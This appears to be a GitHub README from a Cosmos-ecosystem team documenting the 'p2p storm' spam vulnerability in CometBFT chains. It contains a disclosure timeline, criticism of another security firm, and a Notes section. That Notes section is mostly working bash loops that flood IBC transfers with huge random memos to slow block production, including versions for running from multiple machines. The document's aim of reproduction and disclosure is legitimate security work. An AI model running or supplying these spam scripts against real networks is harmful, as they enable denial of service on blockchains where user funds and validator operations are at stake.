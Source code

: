 # Spammy

## Timeline

* 2021, Sept 
  * Issue first noticed on sentinel
    * [validator chat logs](./sentinel-evidence/sentinelvalidatortg/) 10/15/2021-12/15/2021
    * first report to icf hackerone
    * https://acrobat.adobe.com/link/review?uri=urn:aaid:scds:US:c14b2605-3497-381a-870e-510b92e33f75
* 2022, May 
  * Issue occurs on Luna Classic, accelerating the loss of billions in user funds
  * Today, notably, Luna2 has a block size of 1MB and Terraform Labs confirmed that it is due to this
* 2023, August 15 
  * Issue occurs on Stride and Notional begins to investigate with suport from a broad group of teams.
* 2023, Sept 21
  * 8:01am - Jacob Gadikian adds Jessy Irwin to "invalid block parts" channel
    * https://notionalgroup.slack.com/archives/C05N6G0CLBB/p1695272490812409
  * 8:54am - Jessy Irwin leaves "invalid block parts" channel without saying a word
    * https://notionalgroup.slack.com/archives/C05N6G0CLBB/p1695275679442249
  * 9:08am - Amulet subtweets this
    * https://x.com/amuletdotdev/status/1704739436335083941?s=20 
* 2023, Sept 25 
  * Notional Labs reproduces the issue on the cosmos hub replicated security testnet with the explicit approval of Hypha
* 2023, Sept 26
  * Notional labs has accelerated the attack with a [bash script](./attack.bash)
  * RS testnet blocks last 38 seconds each
  * Notional labs discontinues the attack on the RS testnet
* 2023, Sept 27
  * The network continues to experience degraded performance
  * Validator mempools remain [full](./mempoolcryptocrew.json) 
  * Block times are stil [7.9 seconds on average](./screenshots/hub-testnet/current-09-27_19-55-05.jpg), representing a service degredation of 33%
  * Full validator mempools could reduce access to the network for users
  * Network hasn't been attacked for over 18 hours
* 2023, Sept 28 7:16PM CET - amulet announces a low severity security issue with comet, likely because they've not got full context on the issue
  * https://x.com/amuletdotdev/status/1707429071213511090
  * https://github.com/cometbft/cometbft/security/advisories/GHSA-hq58-p9mv-338c 
* 2023, Sept 29 2:14PM CET
  * Cosmos hub replicated security testnet continues to have degraded performance due to gossiping of invalid block parts, logs below.
* 2023, Sept 30:
  * Video One: (DM Jacob for access)
  * Video Two: (DM Jacob for access)
  * [Secret Network Governance Proposal by Assaf](https://www.mintscan.io/secret/proposals/274)
  * Formation of Validator Working Group on Spam per Amulet Recommendations by Jacob Gadikian
* 2023, Oct 1:
  * [Osmosis Expedited Governance Proposal by Jacob Gadikian](https://www.mintscan.io/osmosis/proposals/645)
  * [Cosmos Hub Governance Proposal by Jacob Gadikian](https://www.mintscan.io/cosmos/proposals/827)
  
 

It is my strong belief that Amulet does not understand the nature of the situation because they've failed to communicate with the numerous teams involved.  If they were to even just sync the cosmos hub replicated security testnet, they would immediately see that it is still suffering from the previous attack. 

Amulet seems to have not understood that there are numerous issues at play, despite being in possession of this report:

https://docs.google.com/document/d/1oCjsVYMaV77etxOEbDxh58vkAQaXf7RAkhXvF_8GYis/edit




## Tooling and documentation for the reproduction of:

* banana king
* client update spam
* banana client

In an effort to reporoduce a p2p storm on the cosmos hub testnet. 


### it has been [reproduced](./REPRODUCITON.md)






## Links to explorer

* **client updates**
 * https://ping.pub/cosmos/tx/2BA652123FFD549CCFA672BDD596801DABAD680029EA817369814DE5750DB4AB

* **testing wallet - mainnet**
  * https://www.mintscan.io/cosmos/address/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq
  * txns were made so that they fail intentionally.

* **testing wallet - testnet**
  * will vary between failed transactions and successes
  * goal is to increase block time on the testnet
  * https://explorer.rs-testnet.polypore.xyz/ 
  


## Target

We're looking to transmit a "banana client".  This transaction will 


## P2P storms have occured on the following networks:

* Sentinel
* Luna Classic
  * Led to economic harm 
* Stride


## Notes

Change the maximum request body size in config.toml

```toml
# Maximum size of request body, in bytes
max_body_bytes = 100000000
```

Generate a random string (hex output)

```bash
openssl rand -hex 10000000
```

Sign a transcation


Broadcast a transaction (oddly cli won't broadcast, we'll need to chain it)
```bash
gaiad tx broadcast bananasigned1.json --home ~/.gaia-rs
```

Abuse the ibc memo field
```bash
gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes
 ```

 Abuse the ibc memo field fast
 ```bash
 for (( ; ; )); do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number
 ```bash
 for i in {2000..3000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number, wait a tenth of a second between runs
 ```bash
for i in {3045..5000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; sleep .1 ; done
```

Abuse ibc memos using the account sequence to start


  Loop the loop script
```bash
while true ; do bash attack2.bash ; done
```

```bash
set -e

SEQUENCE=$(curl http://127.0.0.1:1317/cosmos/auth/v1beta1/accounts/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq | jq --raw-output ' .account.sequence ')

for i in $( eval echo {"$SEQUENCE"..10000000} )
         do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i
         done
```
but do it from two machines

```bash
set -e

SEQUENCE=$(curl http://127.0.0.1:1317/cosmos/auth/v1beta1/accounts/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq | jq --raw-output ' .account.sequence ')

for i in $( eval echo {"$SEQUENCE"..10000000} )
         do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i
         done
```






 Hub testnet blcok range 3881725 to 3881733





